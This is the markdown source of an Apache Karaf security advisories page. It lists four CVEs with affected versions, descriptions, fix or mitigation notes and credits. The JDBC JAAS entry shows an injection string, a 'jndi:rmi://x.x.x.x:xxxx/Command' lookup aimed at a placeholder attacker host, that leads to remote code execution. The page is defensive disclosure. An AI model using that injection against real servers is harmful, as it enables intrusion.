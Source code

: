 ```yaml
---
title: Apache Karaf security advisories
description: Security information for Apache Karaf
layout: single
---
```


# Reporting

Do you want disclose a potential security issue for Apache Karaf? Send your report to the [Apache Security Team](mailto:security@apache.org).

# Advisories

This section is experimental: it provides advisories since 2023 and may lag behind the official CVE publications. If you have any feedback on how you would like this data to be provided, you are welcome to reach out on our public [mailinglist](/mailinglist) or privately on [security@apache.org](mailto:security@apache.org)
{.bg-warning}

## Insecure Java Deserialization in Apache Karaf ## { #CVE-2021-41766 }

CVE-2021-41766 [\[CVE json\]](./CVE-2021-41766.cve.json) [\[OSV json\]](./CVE-2021-41766.osv.json)



_Last updated: 2022-01-25T14:39:43.793Z_

### Affected

* Apache Karaf from Apache Karaf before 4.3.6


### Description

Apache Karaf allows monitoring of applications and the Java runtime by
using the Java Management Extensions (JMX).
JMX is a Java RMI based technology that relies on Java serialized
objects for client server communication.
Whereas the default JMX implementation is hardened against
unauthenticated deserialization attacks, the implementation
used by Apache Karaf is not protected against this kind of attack.

The impact of Java deserialization vulnerabilities strongly depends
on the classes that are available within the targets
class path. 
Generally speaking, deserialization of untrusted data does always 
represent a high security risk and should be prevented.

The risk is low as, by default, Karaf uses a limited set of classes in the JMX server class path.
It depends of system scoped classes (e.g. jar in the lib folder).

### References
* https://karaf.apache.org/security/cve-2021-41766.txt


### Credits
* This issue was reported by Daniel Heyne, Konstantin Samuel and Tobias Neitzel.


## Path traversal flaws ## { #CVE-2022-22932 }

CVE-2022-22932 [\[CVE json\]](./CVE-2022-22932.cve.json) [\[OSV json\]](./CVE-2022-22932.osv.json)



_Last updated: 2022-01-25T14:53:17.546Z_

### Affected

* Apache Karaf from Apache Karaf before 4.2.15


### Description

Apache Karaf obr:* commands and run goal on the karaf-maven-plugin have partial
path traversal which allows to break out of expected folder.

The risk is low as obr:* commands are not very used and the entry is set by user.

This has been fixed in revision:

https://gitbox.apache.org/repos/asf?p=karaf.git;h=36a2bc4
https://gitbox.apache.org/repos/asf?p=karaf.git;h=52b70cf

Mitigation: Apache Karaf users should upgrade to 4.2.15 or 4.3.6
or later as soon as possible, or use correct path.

JIRA Tickets: https://issues.apache.org/jira/browse/KARAF-7326

### References
* https://karaf.apache.org/security/cve-2022-22932.txt


### Credits
* This issue was discovered and reported by GHSL team member Jaroslav Lobacevski


## JDBC JAAS LDAP injection ## { #CVE-2022-40145 }

CVE-2022-40145 [\[CVE json\]](./CVE-2022-40145.cve.json) [\[OSV json\]](./CVE-2022-40145.osv.json)



_Last updated: 2022-12-21T15:53:26.357Z_

### Affected

* Apache Karaf from 4.4.0 before 4.4.2
* Apache Karaf before 4.3.8


### Description

<span style="background-color: rgb(255, 255, 255);">This vulnerable is about a potential code injection when an attacker has control of the target LDAP server using in the JDBC JNDI URL.<br><br>The function jaas.modules.src.main.java.por</span><span style="background-color: rgb(255, 255, 255);">g.apache.karaf.jass.modules.</span><span style="background-color: rgb(255, 255, 255);">jdbc.JDBCUtils#doCreateDatasou</span><span style="background-color: rgb(255, 255, 255);">rce</span><br><span style="background-color: rgb(255, 255, 255);">use InitialContext.lookup(jndiName</span><span style="background-color: rgb(255, 255, 255);">) without filtering.<br>An user can modify&nbsp;</span><span style="background-color: rgb(255, 255, 255);">`options.put(JDBCUtils.DATASOU</span><span style="background-color: rgb(255, 255, 255);">RCE, "osgi:" +&nbsp;</span><span style="background-color: rgb(255, 255, 255);">DataSource.class.getName());` to `options.put(JDBCUtils.DATASOU</span><span style="background-color: rgb(255, 255, 255);">RCE,</span><span style="background-color: rgb(255, 255, 255);">"jndi:rmi://x.x.x.x:xxxx/Comma</span><span style="background-color: rgb(255, 255, 255);">nd");` in JdbcLoginModuleTest#setup.</span><br><br><span style="background-color: rgb(255, 255, 255);">This is vulnerable to a remote code execution (RCE) attack when a</span><br><span style="background-color: rgb(255, 255, 255);">configuration uses a JNDI LDAP data source URI when an attacker has</span><br><span style="background-color: rgb(255, 255, 255);">control of the target LDAP server.</span><p>This issue affects all versions of Apache Karaf up to 4.4.1 and 4.3.7.</p>We encourage the users to upgrade to Apache Karaf at least 4.4.2 or 4.3.8

### References
* https://karaf.apache.org/security/cve-2022-40145.txt


### Credits
* Xun Bai <bbbbear68@gmail.com> (reporter)


## Cave SSRF and arbitrary file access ## { #CVE-2024-34365 }

CVE-2024-34365 [\[CVE json\]](./CVE-2024-34365.cve.json) [\[OSV json\]](./CVE-2024-34365.osv.json)



_Last updated: 2024-05-09T06:49:03.305Z_

### Affected

* Apache Karaf Cave through *


### Description

** UNSUPPORTED WHEN ASSIGNED ** Improper Input Validation vulnerability in Apache Karaf Cave.<p>This issue affects all versions of Apache Karaf Cave.</p>As this project is retired, we do not plan to release a version that fixes this issue. Users are recommended to find an alternative or restrict access to the instance to trusted users.<p>NOTE: This vulnerability only affects products that are no longer supported by the maintainer.</p>

### References
* https://karaf.apache.org/security/cve-2024-34365.txt


### Credits
* cigar (finder)
